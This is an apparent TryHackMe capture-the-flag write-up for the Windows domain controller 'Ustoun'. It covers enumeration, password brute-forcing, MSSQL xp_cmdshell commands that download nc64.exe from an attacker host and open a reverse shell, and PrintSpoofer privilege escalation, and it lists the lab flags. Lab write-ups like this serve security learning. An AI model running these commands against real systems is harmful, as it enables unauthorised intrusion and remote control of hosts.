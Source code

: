 USTOUN
======

# Basic Enumeration 

Using nmap to scan alive ports and services `-Pn` because 
it's windows machine

`nmap --min-rate 300 -Pn -A -oN initial ustoun.thm`


```
PORT     STATE SERVICE        VERSION
53/tcp   open  domain         Simple DNS Plus
88/tcp   open  kerberos-sec   Microsoft Windows Kerberos (server time: 2021-05-17 04:53:58Z)
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DC01
|   NetBIOS_Domain_Name: DC01
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: ustoun.local
|   DNS_Computer_Name: DC.ustoun.local
|   DNS_Tree_Name: ustoun.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-05-17T04:55:06+00:00
| ssl-cert: Subject: commonName=DC.ustoun.local
| Not valid before: 2021-01-31T19:39:34
|_Not valid after:  2021-08-02T19:39:34
|_ssl-date: 2021-05-17T04:55:15+00:00; +55s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 54s, deviation: 0s, median: 54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-17T04:55:09
|_  start_date: N/A
```

# USER FLAG

SMB is running now scan for if we can read or write to any share

`smbmap -H ustoun.thm -u anonymous`

![smbmap-scan1](/Images/ustoun/smbmap-scan1.png)

IPC$ share is readable so we can enumerate users.

`lookupsid.py anonymous@ustoun.thm`

![lookupsid](/Images/ustoun/lookupsid.png)

Edit list and put users into list for furthur enumeration

```
cat userlist.txt


Administrator
Guest
krbtgt
DC$
SVC-Kerb
```

There are lot of usefull tools in impacket, using tool named `GetNPUsers.py` we gonna look for any available hashes.
unfortunatly we won't find any hashes. 

I try to Bruteforce all users together it take alot time for,
im to bruteforce user `krbtgt` and `SVC-Kerb` separatly.


`crackmapexec smb ustoun.thm -u 'SVC-Kerb' -p /opt/rockyou.txt` 

![crackmapexec](/Images/ustoun/crackmapexec.png)

With this creds i checked available SMB for any file but no luck.

Lets see if same password used in other services also, lets try to access mssql

`mssqlclient.py ustoun.local/SVC-Kerb:superman@ustoun.thm`

login is success, after some reserach found out we can execute command using `EXEC xp_cmdshell` with that help we can get stable shell.

![mssql](/Images/ustoun/mssql.png)

Download and upload nc.exe and get shell.
**[NC](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)**

```
+ sudo python3 -m http.server 80

+ SQL> EXEC xp_cmdshell 'mkdir C:\munaz'

+ SQL> EXEC xp_cmdshell 'powershell.exe -c curl http://$IP/nc64.exe -o C:\munaz\nc64.exe'

+ SQL> EXEC xp_cmdshell 'C:\munaz\nc64.exe -e cmd $IP 443'
```

![upload](/Images/ustoun/upload.png)

make lister and execute the nc.

![nc-shell](/Images/ustoun/nc-shell.png)

# ROOT FLAG

We got shell but we do not have enough permission to read `user.txt` so we need to escalate privilege 

![user-flag](/Images/ustoun/userflag.png)

Lets see what privilege we have using this command `whoami /priv`

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have **SeImpersonatePrivilege** permission, using [PrintSpoofer](https://github.com/dievus/printspoofer) we can escalate privilege

`powershell.exe -c curl http://$IP/PrintSpoofer.exe -o C:\munaz\PrintSpoofer.exe`

using above command upload it then execute it with this command give to root access.

`PrintSpoofer.exe -i -c cmd`

![root-flag](/Images/rootflag.png)

# Flags

+ THM{MSSQL_IS_COOL}

+ THM{I_L1kE_gPoS}
